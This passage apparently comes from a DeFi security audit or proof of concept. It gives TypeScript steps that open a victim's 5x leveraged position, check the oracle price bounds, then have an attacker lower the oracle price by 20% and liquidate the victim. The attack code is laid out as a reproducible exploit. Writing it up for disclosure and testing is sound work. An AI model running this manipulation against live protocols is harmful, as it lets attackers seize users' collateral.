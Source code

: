    b. **Create Vulnerable Position**
   ```typescript
   // Setup victim's leveraged position
   await onChain.depositToBank({
       coinID: victimCoinId,
       amount: toBigNumberStr(1000, 6)
   }, victim);
   
   // Open position with 5x leverage
   await onChain.openPosition({
       size: toBigNumberStr(10, 6),
       leverage: 5,
       price: initialPrice
   }, victim);
   ```

   c. **Verify Initial State**
   ```typescript
   // Check initial position state
   const initialPosition = await onChain.getPosition(victim.address);
   console.log('Initial Position:', {
       size: initialPosition.size,
       leverage: initialPosition.leverage,
       collateral: initialPosition.collateral,
       liquidationPrice: initialPosition.liquidationPrice
   });
   
   // Verify price bounds
   const bounds = await onChain.getPriceBounds();
   console.log('Price Bounds:', {
       min: bounds.minPrice,
       max: bounds.maxPrice,
       tickSize: bounds.tickSize
   });
   ```

   d. **Execute Attack Within Bounds**
   ```typescript
   // Calculate safe manipulation range
   const maxMove = initialPrice * 0.20;
   const targetPrice = Math.max(
       initialPrice - maxMove,
       bounds.minPrice
   );
   
   // Execute price manipulation
   await onChain.updateOraclePrice({
       price: toBigNumberStr(targetPrice, 6)
   }, attacker);
   
   // Attempt liquidation
   const liquidationTx = await onChain.liquidate({
       account: victim.address
   }, attacker);
   ```
